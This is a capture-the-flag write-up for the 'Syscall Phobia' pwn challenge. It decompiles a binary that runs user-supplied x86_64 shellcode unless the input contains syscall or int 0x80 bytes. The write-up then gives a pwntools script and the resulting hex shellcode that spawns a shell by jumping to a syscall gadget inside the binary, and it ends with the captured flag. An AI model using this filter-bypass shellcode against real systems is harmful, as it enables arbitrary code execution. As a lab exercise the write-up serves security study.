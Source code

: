 # Syscall Phobia

> 150 | Pwn
> 
> Timmy has created a program to execute any x86_64 bytecode instructions! However, Timmy has an absolute detest for syscalls, and does not want anyone to insert syscalls into their instructions. This will make it a little secure... right?
> 
> This challenge server can be accessed here:
> 
> (Any one of the options below is fine)  
> (Suggested access via 'nc')  
> nc ctf-85ib.balancedcompo.site 9998  
> _(9 more nc endpoints)_ 
> 
> Files (Any of the links are fine):  
> https://nusdsoctf2.s3-ap-southeast-1.amazonaws.com/S3/Syscall_Phobia/syscall-phobia  
> https://nusdsoctf.s3-ap-southeast-1.amazonaws.com/S3/Syscall_Phobia/syscall-phobia  
> [Attachment: syscall-phobia](./challenge/syscall-phobia)

Writeup by [@4yn](https://github.com/4yn)

Try to run the executable:

```
$ ./challenge/syscall-phobia
Enter your hexadecimal bytecode here and we will execute it for you!
We absolutely hate syscalls so please DO NOT enter syscall instructions here :D
Example: 554889e5c9c3

Enter assembly bytecode here! (No syscalls please, tenks): 
[I press enter without keying in any shellcode]

Executing your assembly code!
Segmentation fault (core dumped)
```

Decompile with ghidra:

```c++
undefined8 FUN_00400a2c(void)

{
  size_t sVar1;
  void *pvVar2;
  char local_118 [260];
  int local_14;
  code *local_10;
  
  local_10 = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  puts("Enter your hexadecimal bytecode here and we will execute it for you!");
  puts("We absolutely hate syscalls so please DO NOT enter syscall instructions here :D");
  puts("Example: 554889e5c9c3\n");
  puts("Enter assembly bytecode here! (No syscalls please, tenks): ");
  fflush(stdout);
  fgets(local_118,200,stdin); // Get up to 
  sVar1 = strcspn(local_118,"\n");
  local_118[sVar1] = '\0';
  local_14 = FUN_004008f6(local_118,local_10,local_10); // Converts hex string input to raw byte array
  pvVar2 = memmem(local_10,(long)local_14,&DAT_00400d5e,2); // DAT_00400d5e is text pointer to 0x0f05
  if (pvVar2 == (void *)0x0) { // Check if shellcode contains syscall
    pvVar2 = memmem(local_10,(long)local_14,&DAT_00400d61,2); // DAT_00400d61 is text pointer to 0xcd80
    if (pvVar2 == (void *)0x0) { // Check if shellcode contains interrupt
      puts("Executing your assembly code!");
      fflush(stdout);
      DAT_006020a0 = local_10;
      (*local_10)(); // Run shellcode
      return 0;
    }
  }
  puts("Hey! I told you no syscalls! :(");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

We want to make a shellcode that pops a shell, but any instance of `0f05` / syscall or `cd80` / interrupt instructions will prevent execution.

A quick checksec shows that the elf does not have PIE enabled.

```python
from pwn import *
e = ELF('./challenge/syscall-phobia')
e.checksec()
"""
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
"""
```

To solve this, instead of having a syscall instruction in the shellcode, we ROP to a syscall instruction somewhere else inside the binary.

```python
r = ROP(e)
assembly = shellcraft.sh()
assembly = assembly.replace("syscall", f"push {hex(r.syscall.address)}\n    ret")
print(assembly)
"""
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    push 0x400d5e
    ret
"""

shellcode = asm(assembly)
print(shellcode.hex())
"""
6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b58685e0d4000c3
"""
```

Once in the server, just cat the flag. Note that the server's `$PATH` was polluted and we need to use the full path to `cat`.

```bash
$ /bin/cat flag.txt
DSO-NUS{a5a5ab1dc69bb9ffb55e75bdc290313d7d7137e653c98e66cc23dc042b2046bc}
```
